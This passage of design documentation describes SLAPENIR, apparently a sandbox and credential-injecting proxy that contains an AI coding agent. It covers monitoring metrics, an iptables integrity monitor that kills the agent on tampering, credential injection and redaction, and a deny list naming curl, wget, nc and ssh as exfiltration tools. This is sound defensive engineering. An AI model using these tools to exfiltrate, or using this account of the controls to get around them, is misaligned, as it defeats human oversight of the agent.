        }
    }
    headers
}
```

#### Headers Removed After Sanitization

| Header | Reason |
| --- | --- |
| `Content-Length` | Recalculated from sanitized body |
| `Transfer-Encoding` | Removed (body is no longer chunked) |
| `ETag` | Checksum invalid after body modification |
| `Content-MD5` | Checksum invalid after body modification |
| `Content-CRC32` | Checksum invalid after body modification |

#### Why This Matters

Without Content-Length recalculation, a desync attack could occur:

```text

## Without Fix E:

## Proxy sends: Content-Length: 100 (original, pre-sanitization)

## Actual body: 92 bytes (after [REDACTED] replacement, shorter)

## Browser reads: 100 bytes → includes first 8 bytes of NEXT response

## → HTTP response splitting vulnerability

```

**Verified by:** `proxy/tests/security_bypass_tests.rs:303-383`

#### Effectiveness: 88%

| Property | Implementation | Effectiveness |
| --- | --- | --- |
| Content-Length | Recalculated from body | ★★★★★ |
| ETag | Removed | ★★★★★ |
| Content-MD5 | Removed | ★★★★★ |
| Transfer-Encoding | Removed | ★★★★☆ |

---

### Layer 10: Monitoring & Observability

#### Threat Addressed

Undetected security incidents, silent bypass attempts, unauthorized access without audit trail.

#### Implementation

```mermaid
graph LR
    subgraph Sources
        PX["Proxy :3000/metrics"]
        AG["Agent :8000/metrics"]
        CA["Step-CA :9000/metrics"]
    end

    subgraph Collection
        PROM["Prometheus<br/>(15s global, 10s proxy/agent,<br/>30s CA, 30d retention)"]
    end

    subgraph Visualization
        GRAF["Grafana :3001<br/>Dashboards:<br/>• slapenir-overview.json<br/>• network-isolation.json"]
    end

    subgraph Alerts
        LOG["Structured JSON Logs<br/>(tracing crate)"]
    end

    PX --> PROM
    AG --> PROM
    CA --> PROM
    PROM --> GRAF
    PX --> LOG
    AG --> LOG
```

#### Key Metrics

**Ref:** `proxy/src/metrics.rs:14-111`

| Metric | Type | Labels | Purpose |
| --- | --- | --- | --- |
| `slapenir_proxy_http_requests_total` | Counter | method, status, endpoint | Request volume |
| `slapenir_proxy_http_request_duration_seconds` | Histogram | method, endpoint | Latency (1ms–5s buckets) |
| `slapenir_proxy_http_request_size_bytes` | Histogram | — | Request size distribution |
| `slapenir_proxy_http_response_size_bytes` | Histogram | — | Response size distribution |
| `slapenir_proxy_secrets_sanitized_total` | Counter | — | Total secrets redacted |
| `slapenir_proxy_secrets_by_type_total` | Counter | secret_type | Secrets by category |
| `slapenir_proxy_mtls_connections_total` | Counter | — | mTLS session count |
| `slapenir_proxy_mtls_errors_total` | Counter | — | mTLS error count |
| `slapenir_proxy_cert_expiry_timestamp` | Gauge | cert_name | Certificate expiration |
| `slapenir_proxy_active_connections` | Gauge | — | Current connections |
| `agent_network_isolation_status` | Gauge | — | 1=isolated, 0=bypassed |
| `agent_bypass_attempts_total` | Counter | — | Blocked traffic attempts |

#### Audit Events

**Ref:** `agent/scripts/traffic-enforcement.sh` (LOG prefixes)

| Event | Log Prefix | Level | Retention |
| --- | --- | --- | --- |
| Connection accepted | — | INFO | 30 days |
| Secret sanitized | `metrics::record_secret_sanitized` | DEBUG | 30 days |
| Bypass attempt | `[BYPASS-ATTEMPT]` | WARN | 90 days |
| DNS blocked | `[DNS-BLOCK]` | WARN | 90 days |
| Certificate issued | — | INFO | 90 days |
| Network enabled | `[NETWORK]` | WARN | 90 days |
| Runtime monitor failure | `[RUNTIME-MONITOR]` | ERROR | 1 year |

#### Runtime Integrity Monitor

**Ref:** `agent/scripts/runtime-monitor.sh:33-101`

A background process checks iptables integrity every 30 seconds:

```bash
check_count=0

while true; do
    sleep 30
    
    if ! command -v iptables >/dev/null 2>&1; then
        ((check_count++))
    elif ! iptables -L TRAFFIC_ENFORCE -n >/dev/null 2>&1; then
        ((check_count++))
    elif ! iptables -L TRAFFIC_ENFORCE -n | grep -q "DROP"; then
        ((check_count++))
    elif [ "$(iptables -L TRAFFIC_ENFORCE -n | wc -l)" -lt 10 ]; then
        ((check_count++))
    else
        check_count=0
    fi
    
    if [ $check_count -ge 3 ]; then
        s6-svc -d /run/s6/services/agent-svc   # Stop agent
        pkill -u agent                           # Kill all agent processes
        logger "EMERGENCY: iptables integrity compromised, agent terminated"
    fi
done
```

#### Effectiveness: 82%

| Property | Implementation | Effectiveness |
| --- | --- | --- |
| Prometheus metrics | Native histograms + counters | ★★★★★ |
| Structured logging | tracing crate (JSON) | ★★★★☆ |
| Grafana dashboards | Pre-configured | ★★★★☆ |
| Runtime integrity | 30s polling + emergency stop | ★★★★☆ |

**Limitations:** No SIEM integration. No real-time alerting (email/PagerDuty). Log rotation is manual.

---

### Cross-Layer Effectiveness Matrix

#### By Threat Category

| Threat | L1 | L2 | L3 | L4 | L5 | L6 | L7 | L8 | L9 | L10 | Overall |
| -------- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | ---- | --------- |
| Credential Theft | ✓✓ | — | ✓ | ✓✓ | ✓✓ | ✓ | ✓✓ | — | — | ✓ | **98%** |
| Network Exfiltration | — | ✓✓ | ✓✓ | — | — | ✓✓ | — | — | — | ✓ | **95%** |
| Memory Attacks | ✓ | — | — | — | ✓✓ | — | — | ✓ | — | — | **97%** |
| Protocol Attacks | — | — | — | ✓ | — | — | ✓ | ✓ | ✓✓ | — | **88%** |
| DoS | — | ✓ | — | ✓ | — | — | — | ✓✓ | — | ✓ | **75%** |
| Insider Threat | ✓✓ | ✓ | ✓ | ✓ | ✓ | ✓ | ✓ | — | — | ✓✓ | **85%** |

**Legend:** ✓✓ = Primary defense, ✓ = Secondary defense, — = Not applicable

#### By Attack Vector

| Attack Vector | Mitigation Layer(s) | Effectiveness |
| --- | --- | --- |
| Environment variable dump | L1 (zero-knowledge), L5 (memory safety) | ★★★★★ |
| HTTP exfiltration | L2 (network isolation), L6 (iptables DROP) | ★★★★★ |
| DNS exfiltration | L6 (DNS whitelist) | ★★★★★ |
| Man-in-the-middle | L3 (mTLS), L5 (memory safety) | ★★★★☆ |
| Binary bypass (non-UTF-8) | L4 (binary-safe sanitization) | ★★★★★ |
| Header leakage | L7 (header sanitization) | ★★★★★ |
| OOM attack | L8 (size limits) | ★★★★☆ |
| HTTP desync | L9 (Content-Length fix) | ★★★★☆ |
| Traffic bypass | L6 (iptables) | ★★★★★ |
| Memory forensic recovery | L5 (zeroize) | ★★★★★ |

---

### Key Takeaways

1. **10 independent layers** ensure no single point of failure in the security architecture. Each layer addresses a distinct threat category.

2. **Fail-closed design** — the paranoid verification in Layer 7 returns a 500 error if sanitization cannot be verified, rather than risking secret leakage.

3. **Kernel-level enforcement** — Layer 6 (iptables) operates at the kernel level, making it immune to application-level bypass attempts from the agent.

4. **The weakest layers** are L8 (size limits — no streaming mode) and L10 (no SIEM/alerting integration). These are the priority items in the roadmap (WP-13).

5. **Zero `unsafe` code** in the proxy ensures Rust's memory safety guarantees hold without exception.

---

---

# Section 5: Credential Lifecycle & Leak Prevention

### Overview

This document traces the complete lifecycle of a credential through the SLAPENIR system: from initial loading at proxy startup, through automaton construction, to just-in-time injection on outbound requests and sanitization on inbound responses. It covers the 4-stage credential loading pipeline, the Aho-Corasick automaton architecture, binary-safe sanitization with paranoid double-pass verification, AWS SigV4 request re-signing, memory zeroization, and the multi-layered leak prevention mechanisms on both the agent and proxy sides.

---

### 1. Credential Loading Pipeline

#### 1.1 Four-Stage Priority System

The proxy loads credentials through a strict 4-stage priority cascade. Each stage feeds into the next, and the pipeline terminates as soon as a valid `SecretMap` is constructed.

```mermaid
stateDiagram-v2
    [*] --> Stage1_Config: Proxy startup

    Stage1_Config: Stage 1: config.yaml
    Stage1_Config --> Stage2_AutoDetect: Parse strategies from YAML
    Stage1_Config --> Stage2_AutoDetect: config.yaml not found

    Stage2_AutoDetect: Stage 2: Auto-Detect - PostgreSQL
    Stage2_AutoDetect --> Stage3_Merge: Detected APIs match env vars
    Stage2_AutoDetect --> Stage4_Fallback: No APIs detected or DB unavailable

    Stage3_Merge: Stage 3: Merge
    Stage3_Merge --> BuildSecretMap: Manual + auto-detected strategies combined

    Stage4_Fallback: Stage 4: Fallback - hardcoded env vars
    Stage4_Fallback --> BuildSecretMap: OPENAI_API_KEY, ANTHROPIC_API_KEY, GITHUB_TOKEN, API_KEY
    Stage4_Fallback --> [*]: No credentials found error

    BuildSecretMap: Build SecretMap
    BuildSecretMap --> [*]: Aho-Corasick automatons ready
```

**Stage 1 — config.yaml.** The proxy attempts to load `config.yaml` (path configurable via `CONFIG_PATH`). Each strategy entry specifies a type (`bearer`, `aws_sigv4`), an environment variable holding the real credential, a dummy pattern, and an `allowed_hosts` whitelist:

**Ref:** `proxy/config.yaml:5-76`

```yaml
strategies:

  - name: github

    type: bearer
    config:
      env_var: GITHUB_TOKEN
      dummy_pattern: "DUMMY_GITHUB"
      allowed_hosts:

        - "api.github.com"
        - "github.com"
        - "*.github.com"

  - name: slack-bot

    type: bearer
    config:
      env_var: SLACK_BOT_TOKEN
      dummy_pattern: "xoxb-DUMMY"
      allowed_hosts:

        - "slack.com"
        - "*.slack.com"

```

The builder converts each entry into a typed strategy instance:

**Ref:** `proxy/src/builder.rs:8-41`

```rust
pub fn build_strategies_from_config(
    config: &Config,
) -> Result<Vec<Box<dyn AuthStrategy>>, String> {
    let mut strategies: Vec<Box<dyn AuthStrategy>> = Vec::new();

    for strategy_config in &config.strategies {
        match build_strategy(strategy_config) {
            Ok(strategy) => {
                tracing::info!(
                    "Built strategy '{}' (type: {})",
                    strategy_config.name,
                    strategy_config.strategy_type
                );
                strategies.push(strategy);
            }
            Err(e) => {
                tracing::error!(
                    "Failed to build strategy '{}': {}",
                    strategy_config.name,
                    e
                );
                return Err(format!(
                    "Failed to build strategy '{}': {}",
                    strategy_config.name, e
                ));
            }
        }
    }

    if strategies.is_empty() {
        return Err("No strategies were successfully built".to_string());
    }

    Ok(strategies)
}
```

**Stage 2 — Auto-Detect (PostgreSQL).** When `AUTO_DETECT_ENABLED=true` and `DATABASE_URL` is set, the proxy connects to PostgreSQL and queries a table of known API definitions. For each API whose required environment variables are present in the proxy's environment, a strategy is automatically constructed:

**Ref:** `proxy/src/auto_detect.rs:108-191`

```rust
pub async fn scan(&self) -> Result<AutoDetectResult, String> {
    if !self.config.enabled {
        return Ok(AutoDetectResult {
            detected: Vec::new(),
            matched_env_vars: Vec::new(),
            unmatched_env_vars: Vec::new(),
        });
    }

    let env_vars: HashSet<String> = env::vars().map( | (k, _) | k).collect();

    let apis = self.query_matching_apis(&env_vars).await?;

    let mut detected = Vec::new();
    let mut matched_env_vars = Vec::new();

    for api in apis {
        if self.config.exclude.contains(&api.name) {
            continue;
        }

        let matching_env_var = api.env_vars.iter().find( | ev | env_vars.contains(*ev));

        if let Some(env_var) = matching_env_var {
            tracing::info!(
                "Auto-detected API '{}' via environment variable '{}'",
                api.display_name,
                env_var
            );

            let strategy_config = self.api_to_strategy_config(&api, env_var);
            detected.push(strategy_config);
            matched_env_vars.push(env_var.clone());

            if detected.len() >= self.config.max_strategies {
                break;
            }
        }
    }

    Ok(AutoDetectResult {
        detected,
        matched_env_vars,
        unmatched_env_vars,
    })
}
```

**Stage 3 — Merge.** When both manual config and auto-detection yield strategies, the pipeline merges them. Auto-detected strategies are only added if no manual strategy shares the same name, preventing duplicates:

**Ref:** `proxy/src/main.rs:206-228`

```rust
if has_manual_config {
    let manual_names: std::collections::HashSet<String> =
        all_strategies
            .iter()
            .map( | s | s.name().to_string())
            .collect();

    for strategy in auto_strategies {
        if !manual_names.contains(strategy.name()) {
            tracing::info!(
                "  Adding auto-detected strategy: {}",
                strategy.name()
            );
            all_strategies.push(strategy);
        }
    }
} else {
    all_strategies = auto_strategies;
}
```

**Stage 4 — Fallback.** If no strategies were built from either config or auto-detection, the system falls back to hardcoded environment variable mappings:

**Ref:** `proxy/src/main.rs:267-294`

```rust
fn load_secrets_fallback() -> anyhow::Result<SecretMap> {
    let mut secrets = HashMap::new();

    if let Ok(key) = std::env::var("OPENAI_API_KEY") {
        secrets.insert("DUMMY_OPENAI".to_string(), key);
    }

    if let Ok(key) = std::env::var("ANTHROPIC_API_KEY") {
        secrets.insert("DUMMY_ANTHROPIC".to_string(), key);
    }

    if let Ok(token) = std::env::var("GITHUB_TOKEN") {
        secrets.insert("DUMMY_GITHUB".to_string(), token);
    }

    if let Ok(key) = std::env::var("API_KEY") {
        secrets.insert("DUMMY_API_KEY".to_string(), key);
    }
```

If this stage also produces no credentials, the proxy fails to start — a `SecretMap` with zero entries is a hard error.

---

### 2. SecretMap Automaton Construction

#### 2.1 Dual Automaton Architecture

The `SecretMap` maintains two independent Aho-Corasick automatons: one for **injection** (dummy → real) and one for **sanitization** (real → `[REDACTED]`). Both are built at construction time and remain immutable for the lifetime of the proxy.

**Ref:** `proxy/src/sanitizer.rs:27-42`

```rust
#[derive(Clone, Zeroize, ZeroizeOnDrop)]
pub struct SecretMap {
    #[zeroize(skip)]
    patterns: AhoCorasick,
    #[zeroize(skip)]
    sanitize_patterns: AhoCorasick,
    real_secrets: Vec<String>,
    dummy_secrets: Vec<String>,
    #[zeroize(skip)]
    real_secrets_bytes: Vec<Vec<u8>>,
}
```

| Field | Purpose | Zeroize |
| --- | --- | --- |
| `patterns` | Injection automaton (dummy → real) | Skipped (no secrets) |
| `sanitize_patterns` | Sanitization automaton (real → match) | Skipped (compiled automaton) |
| `real_secrets` | Ordered list of real credential values | **Yes** (overwritten with zeros) |
| `dummy_secrets` | Ordered list of dummy placeholder strings | **Yes** |
| `real_secrets_bytes` | Byte representations for binary sanitization | Skipped (derived from `real_secrets`) |

#### 2.2 Construction from Strategies

**Ref:** `proxy/src/sanitizer.rs:203-270`

```mermaid
flowchart TB
    subgraph Input["Strategy Array"]
        S1["BearerStrategy 'github'<br/>DUMMY_GITHUB → ghp_real"]
        S2["BearerStrategy 'openai'<br/>DUMMY_OPENAI → sk-proj-real"]
        S3["AWSSigV4Strategy 'aws'<br/>AKIADUMMY → AKIA..."]
    end

    subgraph Extract["Extract Patterns"]
        E1["Iterate strategies"]
        E2["real_credential() → real value"]
        E3["dummy_patterns() → N dummy strings"]
        E4["N:1 mapping: same real value repeated for each dummy"]
    end

    subgraph Build["Build Automatons"]
        B1["AhoCorasickBuilder<br/>dummy_secrets → patterns"]
        B2["AhoCorasickBuilder<br/>real_secrets → sanitize_patterns"]
        B3["Pre-compute real_secrets_bytes<br/>for binary sanitization"]
    end

    subgraph Output["SecretMap"]
        O1["patterns (injection)"]
        O2["sanitize_patterns (sanitization)"]
        O3["real_secrets [zeroize on drop]"]
        O4["dummy_secrets [zeroize on drop]"]
        O5["real_secrets_bytes"]
    end

    Input --> Extract --> Build --> Output
```

The `from_strategies` method iterates all strategy instances, extracting real credentials and their corresponding dummy patterns. Because a single strategy may expose multiple dummy patterns (e.g., AWS SigV4 uses both `AKIADUMMY` and `AKIA00000000DUMMY`), the same real credential value is duplicated in the `real_secrets` vector to maintain index alignment:

**Ref:** `proxy/src/sanitizer.rs:211-218`

```rust
for strategy in strategies {
    if let Some(real_cred) = strategy.real_credential() {
        let dummies = strategy.dummy_patterns();
        for _ in &dummies {
            real_secrets.push(real_cred.clone());
        }
        dummy_secrets.extend(dummies);
    }
}
```

The length invariant is enforced — `dummy_secrets.len()` must equal `real_secrets.len()` — and a mismatch is a hard error.

#### 2.3 N:1 Dummy-to-Real Mapping

Multiple dummy placeholders can map to a single real credential. The AWS SigV4 strategy demonstrates this pattern:

| Dummy Pattern | Real Credential | Strategy |
| --- | --- | --- |
| `DUMMY_GITHUB` | `ghp_x7K...` | Bearer (github) |
| `DUMMY_GEMINI` | `AIzaSy...` | Bearer (gemini) |
| `AKIADUMMY` | `AKIAIOSF...` | AWS SigV4 |
| `AKIA00000000DUMMY` | `AKIAIOSF...` | AWS SigV4 |

Both `AKIADUMMY` and `AKIA00000000DUMMY` map to the same real AWS access key, resulting in two entries in the Aho-Corasick pattern set that share one replacement value.

---

### 3. Injection (Outbound)

#### 3.1 Aho-Corasick O(N) Scan

Injection replaces all dummy placeholders in outbound request data with real credentials. The Aho-Corasick algorithm performs this in a single pass over the input — O(N) time where N is the length of the input, regardless of how many patterns are being matched.

**Ref:** `proxy/src/sanitizer.rs:80-82`

```rust
pub fn inject(&self, data: &str) -> String {
    self.patterns.replace_all(data, &self.real_secrets)
}
```

#### 3.2 Body Injection in HTTP Proxy Path

**Ref:** `proxy/src/proxy.rs:249`

```rust
let injected_body = state.secret_map.inject(body_str);
tracing::debug!(
    "Injected secrets into request ({} bytes)",
    injected_body.len()
);
```

#### 3.3 Body + Header Injection in CONNECT Tunnel Path

For TLS MITM connections (the CONNECT tunnel path), injection is applied to both the reconstructed HTTP body and all request headers:

**Ref:** `proxy/src/connect_full.rs:156-175`

```rust
let injected_body = state.secret_map.inject(&body_str);

if injected_body != body_str {
    info!("Injected credentials into request body");
    parsed_request.body = injected_body.into_bytes();

    if let Some(content_length) = parsed_request.headers.get_mut("content-length") {
        *content_length = parsed_request.body.len().to_string();
    }
}

for (header_name, header_value) in parsed_request.headers.iter_mut() {
    let injected_header = state.secret_map.inject(header_value);
    if injected_header != *header_value {
        info!("Injected credentials into {} header", header_name);
        *header_value = injected_header;
    }
}
```

The `Content-Length` header is recalculated after injection because the real credential may differ in length from the dummy placeholder.

#### 3.4 Aho-Corasick Algorithm Walkthrough

```mermaid
flowchart LR
    subgraph Input["Input Stream"]
        D["D U M M Y _ G I T H U B ... D U M M Y _ O P E N A I"]
    end

    subgraph Automaton["Aho-Corasick Automaton"]
        A0["State 0 (root)"]
        A1["State 1: D"]
        A2["State 2: DU"]
        A3["State 3: DUM"]
        A4["State 4: DUMM"]
        A5["State 5: DUMMY"]
        A6["State 6: DUMMY_"]
        A7["State 7: DUMMY_G ... → MATCH: DUMMY_GITHUB"]
        A8["State 8: DUMMY_O ... → MATCH: DUMMY_OPENAI"]
        AF["Failure links back to root"]
    end

    subgraph Output["Output"]
        O["ghp_x7K... ... sk-proj-real"]
    end

    Input --> | Single pass, ON | Automaton --> Output

    A0 --> A1 --> A2 --> A3 --> A4 --> A5 --> A6
    A6 --> A7
    A6 --> A8
    A7 -.-> | failure link | AF
    A8 -.-> | failure link | AF
```

The Aho-Corasick automaton processes the input stream one byte at a time. At each position, it either advances along a trie edge or follows a precomputed failure link. When a match is reached, the replacement string is emitted instead of the matched pattern. The key property: the automaton scans the input exactly once, regardless of how many patterns are registered.

---

### 4. Sanitization (Inbound)

#### 4.1 Binary-Safe Byte Matching

All inbound responses are sanitized using byte-level Aho-Corasick matching, not string-level. This prevents bypass via non-UTF-8 payloads — a security-critical fix (Fix A):

**Ref:** `proxy/src/sanitizer.rs:109-131`

```rust
pub fn sanitize_bytes(&self, data: &[u8]) -> Cow<'_, [u8]> {
    let byte_patterns = AhoCorasickBuilder::new()
        .ascii_case_insensitive(false)
        .build(&self.real_secrets_bytes)
        .expect("Failed to build byte pattern matcher");

    let redacted: Vec<&[u8]> = self
        .real_secrets_bytes
        .iter()
        .map( | _ | b"[REDACTED]" as &[u8])
        .collect();

    let matches = byte_patterns.find_iter(data).count();
    if matches > 0 {
        for _ in 0..matches {
            metrics::record_secret_sanitized("binary_sanitization");
        }
    }

    byte_patterns.replace_all_bytes(data, &redacted).into()
}
```

#### 4.2 UTF-8 Sanitization (Cached Automaton)

For UTF-8 string data, a pre-built sanitization automaton is reused across calls (Fix G — cached automaton):

**Ref:** `proxy/src/sanitizer.rs:87-103`

```rust
pub fn sanitize(&self, data: &str) -> String {
    let redacted: Vec<String> = self
        .real_secrets
        .iter()
        .map( | _ | "[REDACTED]".to_string())
        .collect();

    let matches = self.sanitize_patterns.find_iter(data).count();
    if matches > 0 {
        for _ in 0..matches {
            metrics::record_secret_sanitized("sanitization");
        }
    }

    self.sanitize_patterns.replace_all(data, &redacted)
}
```

#### 4.3 Header Sanitization

Response headers are individually sanitized. Headers on the blocked list are removed entirely:

**Ref:** `proxy/src/sanitizer.rs:140-166`

```rust
pub fn sanitize_headers(&self, headers: &HeaderMap) -> HeaderMap {
    let mut sanitized = HeaderMap::new();

    for (name, value) in headers.iter() {
        let name_str = name.as_str();

        if Self::is_blocked_header(name_str) {
            tracing::debug!("Removing blocked header: {}", name_str);
            continue;
        }

        if let Ok(v) = value.to_str() {
            let sanitized_value = self.sanitize(v);
            if let Ok(hv) = HeaderValue::from_str(&sanitized_value) {
                sanitized.insert(name.clone(), hv);
                continue;
            }
        }

        sanitized.insert(name.clone(), value.clone());
    }

    sanitized
}
```

#### 4.4 Paranoid Double-Pass Verification

After the initial sanitization pass, the proxy runs a **second** sanitization pass on the already-sanitized bytes. If the result differs from the first pass, it means a secret leaked through — this triggers a hard error:

**Ref:** `proxy/src/proxy.rs:307-330`

```rust
let sanitized_bytes = state.secret_map.sanitize_bytes(&response_bytes);
let sanitized_body = sanitized_bytes.into_owned();

let verification = state.secret_map.sanitize_bytes(&sanitized_body);
if verification != sanitized_body {
    tracing::error!("Secret sanitization failed verification!");
    return Err(ProxyError::ResponseBodyRead(
        "Sanitization verification failed".to_string(),
    ));
}

let sanitized_headers = state.secret_map.sanitize_headers(&parts.headers);
let final_headers = build_response_headers(&sanitized_headers, sanitized_body.len());
```

This paranoid verification defends against partial-match edge cases and multi-byte encoding tricks where a single sanitization pass might miss an overlapping match.

#### 4.5 Injection/Sanitization Pipeline Flowchart

```mermaid
flowchart TB
    subgraph Outbound["OUTBOUND: Agent → Internet"]
        A1["Agent sends request<br/>Body contains DUMMY_GITHUB"]
        A2["Proxy: inject(body)"]
        A3["Aho-Corasick scan<br/>DUMMY_GITHUB → ghp_x7K..."]
        A4["Recalculate Content-Length"]
        A5["Forward to api.github.com<br/>with real credentials"]
        A1 --> A2 --> A3 --> A4 --> A5
    end

    subgraph Inbound["INBOUND: Internet → Agent"]
        B1["GitHub responds with<br/>body containing ghp_x7K..."]
        B2["Proxy: sanitize_bytes(response)"]
        B3["Binary Aho-Corasick scan<br/>ghp_x7K... → [REDACTED]"]
        B4["Paranoid verify:<br/>sanitize_bytes(sanitized)"]
        B5{"Second pass<br/>matches first?"}
        B6["ERROR: Leak detected!"]
        B7["sanitize_headers(headers)"]
        B8["build_response_headers()<br/>Recalculate Content-Length<br/>Remove ETag, Content-MD5"]
        B9["Return clean response<br/>to agent"]
        B1 --> B2 --> B3 --> B4 --> B5
        B5 --> | No | B6
        B5 --> | Yes | B7 --> B8 --> B9
    end

    style Outbound fill:#2980b9,color:#fff
    style Inbound fill:#c0392b,color:#fff
    style B6 fill:#e74c3c,color:#fff
```

---

### 5. AWS SigV4 Strategy

#### 5.1 Full Request Re-Signing (Not String Replacement)

The AWS SigV4 strategy does not perform simple string substitution. Instead, it intercepts the request, strips any dummy AWS credentials, and performs a complete AWS Signature Version 4 signing of the entire request — method, URI, headers, and body — using the real AWS access key and secret key.

**Ref:** `proxy/src/strategies/aws_sigv4.rs:112-209`

```rust
fn sign_request(
    &self,
    method: &str,
    uri: &str,
    headers: &HeaderMap,
    body: &str,
    host: &str,
) -> Result<(String, Vec<(String, String)>), StrategyError> {
    let access_key = self
        .access_key
        .as_ref()
        .ok_or_else( | | StrategyError::EnvVarNotFound("AWS_ACCESS_KEY_ID".to_string()))?;
    let secret_key = self
        .secret_key
        .as_ref()
        .ok_or_else( | | StrategyError::EnvVarNotFound("AWS_SECRET_ACCESS_KEY".to_string()))?;

    let service = if self.service == "execute-api" {
        Self::extract_service_from_host(host)
    } else {
        self.service.clone()
    };

    let region = Self::extract_region_from_host(host).unwrap_or_else( | | self.region.clone());

    let credentials = if let Some(token) = &self.session_token {
        Credentials::new(
            access_key,
            secret_key,
            Some(token.to_string()),
            None,
            "slapenir-proxy",
        )
    } else {
        Credentials::new(access_key, secret_key, None, None, "slapenir-proxy")
    };

    let identity = credentials.into();
    let signing_settings = SigningSettings::default();
    let signing_params = v4::SigningParams::builder()
        .identity(&identity)
        .region(&region)
        .name(&service)
        .time(SystemTime::now())
        .settings(signing_settings)
        .build()
        .map_err( | e | {
            StrategyError::InjectionFailed(format!("Failed to build signing params: {}", e))
        })?;

    let signable_body = if body.is_empty() {
        SignableBody::Bytes(&[])
    } else {
        SignableBody::Bytes(body.as_bytes())
    };

    let signable_request = SignableRequest::new(
        method,
        uri,
        signable_headers.iter().map( | (k, v) | (*k, *v)),
        signable_body,
    )
    .map_err( | e | {
        StrategyError::InjectionFailed(format!("Failed to create signable request: {}", e))
    })?;

    let (signing_instructions, _signature) =
        sign(signable_request, &signing_params.into())
            .map_err( | e | {
                StrategyError::InjectionFailed(format!("Failed to sign request: {}", e))
            })?
            .into_parts();

    let mut new_headers = vec![];
    for (name, value) in signing_instructions.headers() {
        new_headers.push((name.to_string(), value.to_string()));
    }

    Ok((body.to_string(), new_headers))
}
```

#### 5.2 Service and Region Auto-Detection

The strategy extracts the AWS service name and region from the target hostname:

| Hostname | Service | Region |
| --- | --- | --- |
| `s3.amazonaws.com` | `s3` | default |
| `dynamodb.us-east-1.amazonaws.com` | `dynamodb` | `us-east-1` |
| `lambda.eu-west-1.amazonaws.com` | `lambda` | `eu-west-1` |

#### 5.3 Session Token Support (STS)

The strategy supports temporary credentials via STS session tokens. If `{ACCESS_KEY_ENV}_SESSION_TOKEN` is set, it is included in the signing credentials — enabling the proxy to work with assumed IAM roles.

---

### 6. Memory Protection

#### 6.1 Zeroize + ZeroizeOnDrop

The `SecretMap` struct derives both `Zeroize` and `ZeroizeOnDrop` from the `zeroize` crate. When a `SecretMap` is dropped, all fields annotated for zeroization are overwritten with zeros in memory:

The `SecretMap` struct definition is documented in [Section 4: SecretMap Memory Protection](#secretmap-memory-protection) and [Section 5.2: Dual Automaton Architecture](#21-dual-automaton-architecture). The following table summarizes the zeroization behavior.

#### 6.2 Zeroization Scope

| Field | Zeroized? | Rationale |
| --- | --- | --- |
| `real_secrets` | **Yes** | Contains actual credential values |
| `dummy_secrets` | **Yes** | Reveals pattern structure |
| `patterns` | No | Aho-Corasick automaton — no secret material at rest |
| `sanitize_patterns` | No | Same as above |
| `real_secrets_bytes` | No | Derived from `real_secrets`; zeroized via parent |

#### 6.3 Deterministic Cleanup

Because Rust's `Drop` trait (augmented by `ZeroizeOnDrop`) is deterministic, the cleanup happens at a known point — when the `SecretMap` goes out of scope. There is no garbage collector delay. The `zeroize` crate uses `volatile_write` to prevent compiler optimization from eliding the memory overwrite.

#### 6.4 Zero Unsafe Blocks

The proxy contains **zero** `unsafe` blocks. All memory operations — credential storage, byte manipulation, automaton construction — are performed through safe Rust APIs. This eliminates an entire class of memory corruption vulnerabilities (buffer overflows, use-after-free, double-free) that could expose secrets.

---

### 7. Code Leak Prevention (Agent-Side)

#### 7.1 OpenCode Deny Rules

The agent's OpenCode configuration denies network exfiltration tools at the permission layer:

**Ref:** `agent/config/opencode.json:218-231`

```json
"curl *": "deny",
"wget *": "deny",
"nc *": "deny",
"netcat *": "deny",
"ssh *": "deny",
"scp *": "deny",
"rsync *": "deny",
"npm *": "deny",
"yarn *": "deny",
"pnpm *": "deny",
"pip *": "deny",
"cargo *": "deny",
"gradle *": "deny",
"mvn *": "deny"
```

These deny rules prevent the AI agent from invoking common exfiltration tools. Build tools are also denied by default and only allowed with the `ALLOW_BUILD=1` prefix:

```json
"ALLOW_BUILD=1 npm *": "allow",
"ALLOW_BUILD=1 pip *": "allow",
"ALLOW_BUILD=1 cargo *": "allow",
"ALLOW_BUILD=1 gradle *": "allow"
```

Additionally, OpenCode's `webfetch` tool is denied in the agent configuration, preventing the agent from fetching arbitrary URLs through its built-in web access capability.

#### 7.2 Node.js Fetch Monkey-Patch

The agent replaces the global `fetch` implementation with a patched version that routes through `node:http`/`node:https` — which respects `HTTP_PROXY`/`HTTPS_PROXY` environment variables. This ensures that even Node.js-based tools used by the agent route traffic through the proxy:

**Ref:** `agent/scripts/lib/node-fetch-port-fix.js:1-67`

```javascript
function patchedFetch(input, init) {
  const url = typeof input === "string" ? input : input instanceof URL ? input.href : input.url;
  const parsedUrl = new URL(url);
  const isHttps = parsedUrl.protocol === "https:";
  const lib = isHttps ? https : http;

  const method = (init?.method | | (input instanceof Request ? input.method : "GET")).toUpperCase();
  const headers = {};
  if (init?.headers) {
    if (init.headers instanceof Headers) {
      init.headers.forEach((v, k) => { headers[k] = v; });
    } else if (typeof init.headers === "object") {
      Object.entries(init.headers).forEach(([k, v]) => { headers[k] = v; });
    }
  }

  return new Promise((resolve, reject) => {
    const opts = {
      hostname: parsedUrl.hostname,
      port: parseInt(parsedUrl.port) | | (isHttps ? 443 : 80),
      path: parsedUrl.pathname + parsedUrl.search,
      method,
      headers,
    };

    const req = lib.request(opts, (res) => {
      const readable = new ReadableStream({
        start(controller) {
          res.on("data", (chunk) => {
            controller.enqueue(new Uint8Array(chunk.buffer, chunk.byteOffset, chunk.byteLength));
          });
          res.on("end", () => controller.close());
          res.on("error", (err) => controller.error(err));
        },
        cancel() {
          res.destroy();
        }
      });

      const response = new Response(readable, {
        status: res.statusCode,
        statusText: res.statusMessage,
        headers: Object.entries(res.headers).map(([k, v]) => [k, Array.isArray(v) ? v.join(", ") : v]),
      });
      Object.defineProperty(response, "url", { value: url });
      resolve(response);
    });
    req.on("error", reject);
    if (body) {
      if (typeof body === "string") req.write(body);
      else if (body instanceof ArrayBuffer | | ArrayBuffer.isView(body)) req.write(Buffer.from(body));
      else if (body.pipe) body.pipe(req);
      else req.write(JSON.stringify(body));
    }
    req.end();
  });
}

globalThis.fetch = patchedFetch;
```

This monkey-patch is loaded via `NODE_OPTIONS=--require /path/to/node-fetch-port-fix.js`, ensuring it applies to all Node.js processes spawned within the agent container.

#### 7.3 iptables Default-DROP

The `TRAFFIC_ENFORCE` iptables chain enforces a default-DROP policy on all outbound traffic from the agent container. Only explicitly whitelisted destinations are allowed:

| Rule | Target | Action |
| --- | --- | --- |
| Proxy ACCEPT | `proxy:3000` | Allow (for credential injection) |
